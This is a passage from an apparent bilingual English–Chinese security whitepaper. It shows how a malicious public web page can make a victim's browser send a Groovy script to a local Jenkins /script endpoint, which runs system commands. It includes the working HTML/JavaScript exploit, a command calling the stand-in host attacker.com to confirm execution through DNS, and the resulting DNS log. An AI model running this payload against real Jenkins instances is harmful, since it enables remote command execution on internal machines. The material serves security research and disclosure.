 > 注意：此验证不依赖于受害者能够直接访问 attacker.com 域的 DNS 服务器。相反，会发生这种情况：当受害者运行 JavaScript 时，Jenkins 将运行系统命令，这将导致 DNS 查询被发送到受害者的内部 DNS 服务器，后者将转发它，并最终发送给 attacker.com 域的权威 DNS 服务器。（基本上，阻止这种情况的唯一方法是完全阻止 DNS 查询，这是很难实现的。）

### 执行攻击并进行验证

Our malicious HTML/JavaScript that attacks Jenkins looks like this:

我们攻击 Jenkins 的恶意 HTML/JavaScrip 会是这样：

```html
<html>
<head>
<script>
request = new XMLHttpRequest();
request.open('POST', 'http://127.0.0.1:8080/script');
// Ensure that any Jenkins cookies will be added by the browser: request.withCredentials = true;
request.setRequestHeader("Content-Type","application/x-www-form-urlencoded") request.setRequestHeader("Accept","text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8") 
var params =
'script=def+sout+%3D+new+StringBuffer%28%29%2C+serr+%3D+new+StringBuffer%28%2 9%0D%0Adef+proc+%3D+%27host abc123.attacker.com%27.execute%28%29%0D%0Aproc.consumeProcessOutput%28sout%2C+serr%29%0D%0Aproc.waitForOrKill%281000%29%0D%0Aprintln+%22out%3E+%24sout+err%3E+%24serr%22%0D%0A&Submit=Run'; 
request.send(params); 
request.onload = function() {
    var bytes = request.response; 
    alert('Received from service: ' + bytes);
};
</script>
<body> Testing page
</body>
</html>
```

When the victim surfs to our malicious page (that resides, remember, on the public Internet, not the internal network), we can see in the DNS logs for the attacker.com domain:

当受害者浏览我们的恶意页面（请记住页面存在于公网而不是内网上）时，我们可以在 DNS 日志中看到 attacker.com 域：

```
05-	Mar-2019 13:25:01.079 queries: info: client <redacted IP address>#42960 (abc123.attacker.com): query: abc123.attacker.com IN AAAA -E(0)DC (<redacted IP address>)
```

Seeing this DNS entry proves to us that our injected command ran successfully on the victim!

看到这一条 DNS 记录证明我们的命令注入已经成功总受害者机器上执行！

> Note: In practice, a real attacker would likely rather execute some command that fetches and runs some code that sets up a Command & Control (C2) channel between the victim and the attacker. For the purpose of this whitepaper, however, we limited ourselves to just proving command injection.

> 注意：在实践中，真正的攻击者可能宁愿执行一些命令来获取并运行一些代码，这些代码在受害者和攻击者之间建立命令和控制（C2）通道。 然而，就本白皮书而言，我们仅限于证明命令注入。

## 简要的攻击链分析

